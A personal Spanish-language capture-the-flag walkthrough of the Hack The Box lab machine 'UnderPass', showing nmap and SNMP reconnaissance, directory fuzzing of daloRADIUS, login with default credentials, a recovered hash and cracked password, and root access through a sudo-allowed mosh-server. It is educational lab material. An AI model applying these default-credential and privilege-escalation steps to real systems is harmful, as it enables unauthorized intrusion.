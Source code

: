 ┌──(root㉿kali)-[/home/kali/Desktop/UnderPass]
└─# nmap 10.10.11.48                             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-29 09:41 EDT
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


┌──(kali㉿kali)-[~/Desktop/UnderPass]
└─$ nmap -sU -p 161 10.10.11.48                                  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-29 09:49 EDT
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.048s latency).

PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 0.36 seconds
                                                                                        
┌──(kali㉿kali)-[~/Desktop/UnderPass]
└─$ 
![[Pasted image 20250429154952.png]]
Ha primera vista con el escaneo solamente tenemos el puerto ssh que es seguro y la pagina por defecto de ubuntu.Aqui no hay absolutamente nada no vemos tampoco que haciendo fuzzing nos salga nada ni tengamos informacion escondida si corremos el escaneo con UDP vemos que el puerto 161 esta abierto y corriendo un servicio dentro de este 

![[Pasted image 20250429161608.png]]

Encontramos que esta corriendo daloradius una pagina web ahora hay que hacer fuzzing sobre fuzzing 
![[Pasted image 20250430083917.png]]

no tenemos permiso pero si que podemos seguri haciendo fuzzing y ir viendo si hay mas rutas.

![[Pasted image 20250429161520.png]]
/library              (Status: 301) [Size: 323] [--> http://10.10.11.48/daloradius/library/]                                                                                    
/doc                  (Status: 301) [Size: 319] [--> http://10.10.11.48/daloradius/doc/]
/app                  (Status: 301) [Size: 319] [--> http://10.10.11.48/daloradius/app/]
/contrib              (Status: 301) [Size: 323] [--> http://10.10.11.48/daloradius/contrib/]                                                                                    
/setup                (Status: 301) [Size: 321] [--> http://10.10.11.48/daloradius/setup/]   

de estas rutas la unica que contiene algo es http://10.10.11.48/daloradius/app

![[Pasted image 20250429162156.png]]
y http://10.10.11.48/daloradius/doc/install esta ruta parece que no lleva a ningun sitio 

#encontramos esta ruta que tiene un panel de login pero no tenemos aun credenciales 
http://10.10.11.48/daloradius/app/users/login.php


![[Pasted image 20250429162733.png]]
![[Pasted image 20250429162814.png]]

![[Pasted image 20250429162841.png]]
![[Pasted image 20250430084039.png]]
/app/users/login.php pero no tenemos credenciales ni podemos hacer nada

la ruta buena es esta ![[Pasted image 20250429163016.png]]
en esta ruta de aqui encontramos un panel de login que tiene por defecto las credenciales administrator:radius

![[Pasted image 20250430084255.png]]

svcMosh:098F6BCD4621D373CADE4E832627B4F6
svcMosh:underwaterfriends

Encontramos estas credenciales y ya podemos acceder por ssh 
![[Pasted image 20250430084403.png]]
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
Buscando un poco vemos lo que hace este binario que hace posible que se levante un servidor como lo podemos ejecutar con root obtenemos acceso rapido a la maquina 

https://medium.com/@momo334678/mosh-server-sudo-privilege-escalation-82ef833bb246

este es el que segui para conseguirlo vamos a hacerlo en un momento 
![[Pasted image 20250430084912.png]]
┌──(kali㉿kali)-[~/Desktop/Nocturnal]
└─$ MOSH_KEY=kdd+ve1bO6aE0weCShsO8g mosh-client 10.10.11.48 60001


![[Pasted image 20250430085137.png]]